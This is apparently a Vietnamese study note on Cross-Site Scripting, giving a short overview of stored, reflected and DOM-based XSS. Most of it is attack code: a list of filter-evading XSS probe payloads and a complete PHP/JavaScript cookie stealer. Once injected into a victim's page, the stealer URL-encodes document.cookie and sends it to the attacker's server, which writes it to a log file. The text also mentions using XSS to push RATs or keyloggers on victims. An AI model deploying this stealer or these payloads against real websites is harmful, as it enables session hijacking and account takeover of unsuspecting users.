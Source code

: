 #A3-Cross-Site Scripting (XSS)
### khái quát
XSS được viết tắt bởi Cross-Site-Scripting. Nó là một phương pháp tấn công cơ bản. Nó dựa trên việc thực thi HTML và JavaScript trên một trang web. Việc tấn công này có thể xảy ra khi xác nhận những lệnh ở các text-box, hoặc cũng có thể là trên thanh URL. Những kết quả được đọc dưới dạng HTML, vì vậy nó sử dụng một vài thủ thuật Social-Engineering để tác động đến 1 ai đó tải một virus mà chính bạn đã tạo ra, và là tiềm năng cho một botnet, hoặc RAT, cũng có thể là 1 keylogger. XSS có thể trở nên rất nguy hiểm, Nhưng cũng có thể rất vô hại.
### gồm 3 loại
- STORED-XSS :  chèn đoạn js thông qua lưu trữ , vd gửi tn đến admin

-  REFLECTED-XSS: Khác với Stored-XSS, Reflected-XSS đoạn mã khai thác sẽ không được lưu trữ trên server , chèn js vào mục tìm kiến hay cmt...

- xss dom based : chưa nắm rõ

các đoạn mã check lỗi
```

"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83)) </script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83)) </ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83) )</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,8 3))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83 ,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))

```
 - đoạn PHP get cookie
 
 ```
 <?php
/*
* Created on 16. april. 2007 Được tạo ngày 16/8/2007
* Created by Audun Larsen (audun@munio.no)- Tác giả-
*
* Copyright 2006 Munio IT, Audun Larsen
*
* THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES,
* INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
* FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE AUTHOR OR CONTRIBUTORS BE LIABLE
* FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
* (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS;
* OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
* OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
* EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>

var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER['PHP_SELF']; ?>';

// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";

var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for

return encoded;
};

cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);

< ?php
}
?>
``` 
